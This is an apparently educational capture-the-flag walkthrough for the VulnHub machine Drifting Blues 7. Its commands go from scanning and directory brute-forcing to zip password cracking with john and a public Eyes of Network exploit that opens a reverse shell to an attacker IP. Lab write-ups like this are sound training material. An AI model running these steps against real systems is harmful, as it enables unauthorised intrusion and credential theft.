

# 🔐 Drifting Blues 7  Walkthrough

---

## 📌 Overview
- **Machine:** Drifting Blues 7  
- **Platform:** VulnHub  
- **Objective:** Get root access

🎯 This walkthrough demonstrates a structured approach covering **enumeration, exploitation, and privilege escalation**.

---

## 🧠 Methodology

---

## 🌐 Network Discovery
We will start with first discovering our victim IP address with the help of net discover tool.
- Command: sudo netdiscover -r <IP_RANGE>

- Target IP: 192.168.56.106

---

## 🔎 Port Scanning
Once we have found out the IP address now we will use nmap to scan all open ports and services running on this machine.
- Command: sudo nmap -Pn -sS <TARGET_IP>

| Port | Service       |
| ---- | ------------- |
| 22   | SSH           |
| 80   | HTTP          |
| 111  | rpcbind       |
| 443  | HTTPS         |
| 3306 | mysql         |
| 8086 | d-s-n         |

---

## 🧪 Enumeration
With help of nmap I found out that port 80 is open which is http so we can go and browse the webpage to see what more I can find.

-  Port 80: Eyes of Network admin login panel
-  Default Credentials failed\
  
---

## 📂 Directory Bruteforce
Now I will try to perfom directory bruteforcing with help of dirbuste tool to find any hidden files or directories which can contain some useful information.
- Command: dirb https://<TARGET_IP> /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- 
  
  
  **Findings**
  -  bash.history

I found that that bash.history file contain shell command of previous user so we will open with help of curl command in our attacker machine.
-  Command: curl http://<TARGET_IP>/.bash_history
  
  

  

  After opening bash.history with curl I found out that there is flag.txt inside it which contain a flag.

  For further enumeration I used gobuster tool to find any more informations.
  - Command: gobuster dir -u https://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

    

 - Findings
   - /eon

  I found out another directory which /eon so I will also open this file with help of curl
  
  ---
  
  ## 🔐 Exploitation

  

  After opening /eon I found out that there is something which in encoded in base64 so now we will decode it with help of base64.guru.

  

  I found that there is an zip file so I download it and try to extract it but while extracting it was asking an password so I use zip2john to enumerate the    password hash for application.zip

  **Password Cracking**
  - Command: zip2john application.zip > hash
    
    john hash --wordlist=/usr/share/wordlists/rockyou.txt

    

    After cracking I found the password is **killah**

    Now I will use this password to extract the file and see what it contains.

    After extracting I found out that it contains username and password.
    - **Username:** admin
    - **Password:** isitreal31_

    I will use this username and password on Eyes of Network admin panel which I found earlier.

    

    Successfully logged into Eyes of Network Dashboard.

    **REMOTE CODE EXECUTION**
    
    In exploit.db website there is already a remote code execution exploit for eyes of network is available so I will download that exploit and try to exploit here.
    
    

    So now I copy this exploit as exploit.py and run a python code to exploit the machine.

    - Command:  cp /usr/share/exploitdb/exploits/php/webapps/48025.txt exploit.py

         python3 exploit.py https://<TARGET_IP> \
         -ip <ATTACKER_IP> \
         -port 4444 \
         -user admin \
         -password isitreal31__

- Reverse shell obtained

  ---

  ## 🧑‍💻 Privilege Escalation

  I already have root access so now I will find a root flag to complete this walkthrough.

  - Command: cd /root
    
     cat flag.txt

    

    So I have successfully exxploited and gain the root access and achieved my goal.

    ---

  ## ⚔️ MITRE ATT&CK Mapping

  | Phase                | Technique             |
  | -------------------- | --------------------- |
  | Reconnaissance       | Active Scanning       |
  | Initial Access       | Valid Accounts        |
  | Execution            | Command Injection     |
  | Credential Access    | Unsecured Credentials |
  | Privilege Escalation | Exploitation          |

---

## 🧠 Key Takeaways
- Deep enumeration is critical
- Hidden files can leak sensitive data\
- Weakly protected archives are exploitable
- Chaining vulnerabilities leads to full compromise

---

## 👨‍💻 Author
Jeet Bandhara

   

